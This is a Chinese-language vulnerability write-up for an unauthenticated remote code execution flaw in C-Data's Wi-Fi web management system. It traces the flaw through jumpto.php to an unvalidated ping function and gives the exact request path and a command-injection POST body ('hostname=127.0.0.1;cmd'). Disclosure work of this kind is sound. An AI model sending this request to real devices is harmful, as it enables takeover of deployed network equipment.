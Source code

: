 # C-Data Wi-Fi Web管理系统存在未授权RCE漏洞

## 一、漏洞描述

        C-Data是一家提供主流接入网技术所需全线产品的高科技企业。在中国市场，C-Data拥有电信、广电、驻地网运营商、系统集成商等众多品牌客户，产品销售更是覆盖世界各地，在南美洲、非洲、东欧、东南亚、亚太地区近百个国家的运营商网络、企业网络中得到了广泛应用。

        而其提供的Wi-Fi Web管理系统存在未授权远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限。



## 二、定位漏洞点

在cgi-bin 目录下 jumpto.php 可以通过拼接GET参数，跳转到同级目录下的php或html文件

![](assets\e622aa7ce9edd3ed83b0c2cf4af996eec253a5ed.png)

同级目录中的diagnosis目录下的diagnosis_config_save.php文件中提供了ping功能，其代码如下：

![](assets\1c3ee2086cff0a4b23150a65f999d392fa031673.png)

在指定call_function为ping时，该函数接受post的iface参数与hostname参数，拼接指令并执行。然而此处对传进来的iface与hostname参数都没有进行校验，因此可以通过构造阶段从而实现任意命令执行。



## 三、漏洞利用

根据漏洞点构造发包请求，将其设置为POST请求包，

设置GET参数使得能够从jumpto.php跳转到diagnosis_config_save.php

```
cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1
```

设置POST参数使得可以执行ping命令并对其截断从而执行任意命令

```
call_function=ping&iface=eth0&hostname=127.0.0.1;cmd
```

漏洞利用结果如下，成功执行id指令，返回被攻击端的用户id：

![](assets\d18db5ae714de619e58889bedb835793bfc78767.png)